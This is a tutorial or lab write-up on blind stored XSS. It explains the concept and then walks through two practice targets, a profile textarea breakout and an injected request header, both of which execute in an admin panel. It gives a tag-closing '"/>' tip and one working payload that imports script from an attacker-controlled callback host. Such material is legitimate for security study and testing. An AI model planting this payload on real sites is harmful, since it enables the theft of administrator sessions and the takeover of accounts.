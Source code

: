 # Blind XSS

* **What it is:** Blind XSS is a stored XSS where the attacker’s payload is saved by the app but **not** immediately reflected back to the attacker. Instead it executes later in another context (admin panel, email viewer, log viewer, etc.), so the attacker sees no immediate browser pop-up — hence “blind.”
* **Typical flow:** Attacker injects payload → payload is stored (DB, logs, ticket system, file metadata) → a different user or backend process opens the stored data → payload executes in that victim’s browser/context → attacker receives out-of-band evidence (callback/DNS/HTTP).
* **Common sinks:** admin dashboards, support/CRM systems, email previews, log viewers, scheduled reports, file previewers, notification systems.
* **Why it’s dangerous:** Execution happens in a higher-privilege context (admins), can steal session tokens, perform actions, pivot, or exfiltrate data via OOB channels — often unnoticed for longer.
* **How defenders detect it:** instrument out-of-band (OOB) testing using safe collaborator services (DNS/HTTP callbacks), monitor server logs for unexpected script activity, add alerting on suspicious HTML in stored fields, and review rendered outputs in admin UIs.

{% hint style="info" %}
_Even though it seems that the payload is percent encoded in the source code it might execute XSS somewhere else like in the admin panel etc._&#x20;
{% endhint %}

## Target - 1&#x20;

<figure><img src="../../../.gitbook/assets/image (224).png" alt=""><figcaption></figcaption></figure>

We can see that no users is created yet. let's create a user.&#x20;

<figure><img src="../../../.gitbook/assets/image (225).png" alt=""><figcaption></figcaption></figure>

We can see that user in the user list and we're directly logged in as that user. Let's check the profile section.&#x20;

<figure><img src="../../../.gitbook/assets/image (226).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (227).png" alt=""><figcaption></figcaption></figure>

We can see that we're given the option to edit our information in the profile tab. let's try to enter some payload if we can find stored XSS therein.&#x20;

### Checking for reflections

<figure><img src="../../../.gitbook/assets/image (228).png" alt=""><figcaption></figcaption></figure>

We can see that when we try to update the profile it is reflecting back in the same textarea field. Also we know that there is no way to execute any other tag inside textarea. So for executing XSS we need to break out of the textarea.&#x20;

<figure><img src="../../../.gitbook/assets/image (229).png" alt=""><figcaption></figcaption></figure>

But still there is no any change. Let's see the source code for what hapenned.&#x20;

<figure><img src="../../../.gitbook/assets/image (230).png" alt=""><figcaption></figcaption></figure>

We can see that the payload is URL encoded. Let's now see that user from the admin panel with the admin credentials provided to us. We can see that user list there too.&#x20;

<figure><img src="../../../.gitbook/assets/image (231).png" alt=""><figcaption></figcaption></figure>

And boom on clicking on that user we strike an XSS therein.&#x20;

<figure><img src="../../../.gitbook/assets/image (232).png" alt=""><figcaption></figcaption></figure>

Thus we can't determine where the internal reflection may be possible. So we continuously need to check the payloads and if it is reflecting somewhere else that we couldn't determine. Same case of `aree` industries where I have found a stored XSS in which payload was entered while registration but later it reflected when someone else tried to view our profile.&#x20;

{% hint style="info" %}
_Note the `"/>` used in the payload context. Make sure to use this before starting any payload because what it does is it tries to close any other tag that is yet open._&#x20;
{% endhint %}

## Target - 2

<figure><img src="../../../.gitbook/assets/image (234).png" alt=""><figcaption></figcaption></figure>

On clicking on placing order it is simply replying with a message that your order has been placed and not a single input of that is being reflected back. So can we find XSS herein. let's check in the admin panel what new things we did get.&#x20;

<figure><img src="../../../.gitbook/assets/image (235).png" alt=""><figcaption></figcaption></figure>

Thus we can see that the admin is able to see various orders placed by the customers and the address of the customer. As well as it seems that the website is trying to fingerprint the customer for some tracking details. Let's try to use burp suite match and replace to modify all these and let's check if we can execute XSS therein.&#x20;

But note that the developer here corrected the mistake that he did in the target-1 thus we're unable to execute XSS from the `Customer Address` field. But he forgot to encode/sanitize the Request headers that is stored and reflected in the admin panel that they had done for the fingerprinting. let's take advantage of it.&#x20;

<figure><img src="../../../.gitbook/assets/image (236).png" alt=""><figcaption></figcaption></figure>

Place the order again so that the malicious header will go in the admin panel. And boom. :bomb:

<figure><img src="../../../.gitbook/assets/image (237).png" alt=""><figcaption></figcaption></figure>

But let's say we're unable to access the admin panel then how to determine/find this vulnerability. So the answer is simple. instead of attaching an XSS payload attach this and log requests on your server:&#x20;

**`<svg/onload=import('//mybxss.site')>`**

{% hint style="info" %}
_Note that this alerts didn't come immediately. Sometimes it takes days/weeks/months to execute because we don't know when the admin might open things or whether he will open or not. But this is the simplest and best method to demonstrate blind XSS vulnerability._&#x20;
{% endhint %}
